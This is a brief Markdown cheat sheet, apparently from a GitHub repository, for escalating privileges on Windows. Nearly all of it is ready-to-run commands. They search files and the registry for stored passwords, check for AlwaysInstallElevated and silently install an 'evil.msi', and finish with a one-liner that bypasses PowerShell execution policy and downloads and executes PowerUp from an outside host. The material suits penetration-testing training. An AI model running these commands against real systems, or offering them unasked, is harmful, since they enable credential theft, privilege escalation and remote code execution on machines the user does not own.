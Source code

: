 # Windows Privilege Escalation Cheatsheet

## List powershell module directories

```powershell
echo $Env:PSModulePath
```

## Download file

```powershell
Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1
```

## Search for passwords in filesystem

```shell
cmd style: dir /s *pass* == *cred* == *vnc* == *.config*
```

```powershell
powershell style: findstr /si password *.xml *.ini *.txt
```

```powershell
reg query HKLM /f password /t REG_SZ /s
```

```powershell
reg query HKCU /f password /t REG_SZ /s
```

## MSI register

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

If both return 1, then get an evil.msi and:

```powershell
msiexec /quiet /qn /i evil.msi
```

## Popular tools

### Load PowerUp

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
